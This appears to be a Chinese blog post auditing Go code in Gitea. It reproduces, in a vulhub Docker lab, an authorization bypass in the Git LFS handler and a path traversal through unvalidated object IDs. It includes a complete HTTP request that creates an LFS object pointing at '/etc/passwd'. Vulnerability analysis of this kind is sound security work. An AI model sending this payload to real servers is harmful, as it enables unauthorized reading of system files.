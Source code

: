 ```yaml
---
layout:     post
title:      go代码审计
date:       2019-1-19
author:     Wh0ale
header-img: img/1.jpg
catalog: true
---
```




这是一个非常漂亮的漏洞链，很久没见过了。

我用docker来复现并学习这个漏洞，官方提供了docker镜像，vulhub也会上线这个环境。

## 漏洞一、 逻辑错误导致权限绕过辑中

> Git LFS是Git为大文件设置的存储容器，我们可以理解为，他将真正的文件存储在git仓库外，而git仓库中只存储了这个文件的索引（一个哈希值）。这样，git objects和.git文件夹下其实是没有这个文件的，这个文件储存在git服务器上。gitea作为一个git服务器，也提供了LFS功能。

在 modules/lfs/server.go 文件中，PostHandler是POST请求的处理函数：

[![carbon_2 (1).png](https://www.leavesongs.com/media/attachment/2018/07/14/b665f7e0-c72f-4964-9f27-65e1a20b0c12.d64cf093932b.png)](https://www.leavesongs.com/media/attachment/2018/07/14/b665f7e0-c72f-4964-9f27-65e1a20b0c12.png)

可见，其中间部分包含对权限的检查：

```go
if !authenticate(ctx, repository, rv.Authorization, true) {
    requireAuth(ctx)
}
```

在没有权限的情况下，仅执行了requireAuth函数：这个函数做了两件事，一是写入WWW-Authenticate头，二是设置状态码为401。也就是说，在没有权限的情况下，并没有停止执行PostHandler函数。

所以，这里存在一处权限绕过漏洞。

## 漏洞二、目录穿越漏洞

这个权限绕过漏洞导致的后果是，未授权的任意用户都可以为某个项目（后面都以vulhub/repo为例）创建一个Git LFS对象。

这个LFS对象可以通过`http://example.com/vulhub/repo.git/info/lfs/objects/[oid]`这样的接口来访问，比如下载、写入内容等。其中`[oid]`是LFS对象的ID，通常来说是一个哈希，但gitea中并没有限制这个ID允许包含的字符，这也是导致第二个漏洞的根本原因。

我们利用第一个漏洞，先发送一个数据包，创建一个Oid为`....../../../etc/passwd`的LFS对象：

```go
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```